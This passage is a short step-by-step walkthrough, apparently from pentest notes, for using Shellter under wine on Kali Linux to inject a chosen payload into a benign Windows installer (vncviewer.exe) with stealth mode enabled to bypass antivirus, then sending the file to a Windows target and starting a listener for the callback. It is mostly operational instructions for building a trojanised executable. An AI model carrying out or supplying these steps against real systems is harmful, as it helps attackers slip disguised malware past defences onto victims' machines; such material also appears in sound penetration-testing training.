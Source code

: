 
to install: `sudo apt install shellter -y`
Because it's a exe file we need a tool called `wine` that can execute `exe` files on Linux systems.

After installing Shellter: `sudo dpkg --add-architecture i386`

Then go to Shellter folder: `cd /usr/share/windows-resources/shellter` 

And execute Shellter with wine: `sudo wine shellter.exe`

Choose Operation Mode: `A` for auto

Then PE Target: `/home/kali/Desktop/AVBypass/vncviewer.exe` this might not work for chrome.exe or VLC.exe just normal simple installers.

When asked: Enable Stealth Mode: Choose yes

Then Choose any Payload u want....

Then Choose LHOST & LPORT...


***Now transfer the exe file to our Windows target and start a Listener....***